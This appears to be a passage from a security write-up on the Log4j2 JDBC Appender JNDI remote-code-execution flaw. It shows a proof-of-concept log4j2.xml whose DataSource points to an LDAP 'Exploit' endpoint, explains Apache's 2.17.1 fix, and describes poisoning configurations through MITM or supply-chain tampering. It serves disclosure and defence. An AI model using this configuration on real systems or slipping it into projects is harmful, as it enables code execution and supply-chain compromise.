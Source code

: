 ```xml
<Configuration status="error">
    <Appenders>
        <JDBC name="databaseAppender" tableName="dbo.application_log">
            <DataSource jndiName="ldap://127.0.0.1:1389/Exploit" />
            <Column name="eventDate" isEventTimestamp="true" />
            <Column name="level" pattern="%level" />
            <Column name="logger" pattern="%logger" />
            <Column name="message" pattern="%message" />
            <Column name="exception" pattern="%ex{full}" />
        </JDBC>
    </Appenders>
    <Loggers>
        <Root level="warn">
            <AppenderRef ref="databaseAppender"/>
        </Root>
    </Loggers>
</Configuration>
```

# Expected Results
When initializing the logger object, a request to the remote log4j2.xml will be made. In the loading process, an attempt to load the DataSource object will make a request to the LDAP server that will then redirect to a malicious class. In the end, the arbitrary class will be deserialized and executed.

# Apache’s Fix
On December 27th the fixing commit [05db5f9](https://github.com/apache/logging-log4j2/commit/05db5f9527254632b59aed2a1d78a32c5ab74f16) was released. As we can see before the fix, the lookup of the DataSource was made directly with the InitialContext, which is a Java internal class.

<img src="/img/blogs/log4j2/Image-2.jpg" style="width: 100%;"/>

In version 2.17.1 the lookup uses the log4j’s JNDI wrapper, and thus disables the lookup. A new log4j2.enableJndiJdbc system property was added to reenable this functionality.

This is the reason why the vulnerability is exploitable using log4j’s default system properties.

# Why Is This Interesting?
There are two main configuration scenarios when using Log4J.

* The configuration is on a remote location. This can be useful for developers in case of multiple products sharing the same logging configuration. In this case, an attacker could expand their control over a network by gaining access to the node that serves the configuration file, or use techniques such as MITM and DNS poisoning to inject a malicious configuration file and trigger code execution.
* The configuration is a local file and is part of the repository or project. This is the case for most products in the wild. Even though this scenario is harder to leverage, an attacker could attempt to alter the configuration file by gaining access to the source code, especially if it’s an open-source project that’s maintained by a community such as GitHub. For example, an attacker could find a popular Java package that’s using Log4J, alter its configuration file, and cause a supply chain attack for developers who are using this package. **Unlike changes to the code itself, configuration files tend to draw less focus and are easier to “sweep under the rug”.**
